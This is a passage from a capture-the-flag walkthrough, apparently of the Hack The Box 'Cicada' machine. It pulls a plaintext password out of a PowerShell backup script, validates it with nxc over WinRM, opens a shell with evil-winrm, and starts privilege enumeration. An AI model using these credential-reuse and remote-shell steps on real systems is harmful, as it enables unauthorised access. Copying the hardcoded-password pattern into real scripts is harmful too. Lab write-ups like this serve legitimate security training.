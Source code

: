 ```bash

```

We get a powershell script.
```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```

From the script we get a user who set some variables of which some expose the user's creds.
- username : `emily.oscars`
- password : `Q!3@Lp#M6b*7t*Vt`

Since we got the two non-default shares we can try winrm with the new user.
```bash
 nxc winrm cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
WINRM       10.129.66.140   5985   CICADA-DC        [*] Windows Server 2022 
WINRM       10.129.66.140   5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)

```

We can get a shell using [evil-winrm](https://github.com/Hackplayers/evil-winrm) 
```bash
evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami 
cicada\emily.oscars
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 

```

# Privilege Escalation
Now with the shell we try enumerating the user privileges.
```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601


GROUP INFORMATION
```